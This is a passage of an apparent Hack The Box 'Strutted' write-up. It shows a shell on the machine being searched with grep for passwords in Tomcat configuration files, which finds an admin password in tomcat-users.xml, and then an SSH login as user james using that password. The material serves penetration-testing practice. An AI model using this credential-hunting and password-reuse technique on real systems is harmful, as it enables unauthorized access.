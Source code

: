 ```console
tomcat@strutted:~$ ls -la
total 20
drwxr-xr-x  5 root   root   4096 Jun 19 01:00 .
drwxr-xr-x 41 root   root   4096 Jan 15 14:30 ..
lrwxrwxrwx  1 root   root     12 Jul 20  2022 conf -> /etc/tomcat9
drwxr-xr-x  2 tomcat tomcat 4096 Jan 15 14:30 lib
lrwxrwxrwx  1 root   root     17 Jul 20  2022 logs -> ../../log/tomcat9
drwxr-xr-x  2 root   root   4096 Jun 19 01:00 policy
drwxrwxr-x  3 tomcat tomcat 4096 Jan 15 14:30 webapps
lrwxrwxrwx  1 root   root     19 Jul 20  2022 work -> ../../cache/tomcat9
```
Inside of the conf directory I find the password `IT14d6SSP81k`.
```console
tomcat@strutted:~/conf$ grep -ir pass .
./tomcat-users.xml:  you must define such a user - the username and password are arbitrary.
./tomcat-users.xml:  will also need to set the passwords to something appropriate.
./tomcat-users.xml:  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
./tomcat-users.xml:  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
./tomcat-users.xml:  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
./tomcat-users.xml:  them. You will also need to set the passwords to something appropriate.
./tomcat-users.xml:  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
./tomcat-users.xml:  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
./tomcat-users.xml:  <user username="role1" password="<must-be-changed>" roles="role1"/>
./catalina.properties:# passed to checkPackageAccess unless the
./catalina.properties:# passed to checkPackageDefinition unless the
./server.xml:         analyzes the HTTP headers included with the request, and passes them
./server.xml:      <!-- Use the LockOutRealm to prevent attempts to guess user passwords
./web.xml:  <!--                       pass the result to this style sheet residing   -->
./web.xml:  <!--                       pass the result to this style sheet which is   -->
./web.xml:  <!--                        work-around various issues when Java passes   -->
./web.xml:  <!--                        headers passed to the CGI process as          -->
./web.xml:  <!--   passShellEnvironment Should the shell environment variables (if    -->
./web.xml:  <!--                        any) be passed to the CGI script? [false]     -->
./web.xml:        <mime-type>application/vnd.blueice.multipass</mime-type>

```
I successfully connect to the machine over ssh with the credentials `james:IT14d6SSP81k`.
```console
┌──(kali㉿kali)-[~/htb/strutted/writeup]
└─$ ssh james@$(cat ip)
james@10.10.11.59's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jun 19 01:43:36 AM UTC 2025

  System load:           0.12
  Usage of /:            69.5% of 5.81GB
  Memory usage:          10%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.59
  IPv6 address for eth0: dead:beef::250:56ff:feb0:23f0

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.
```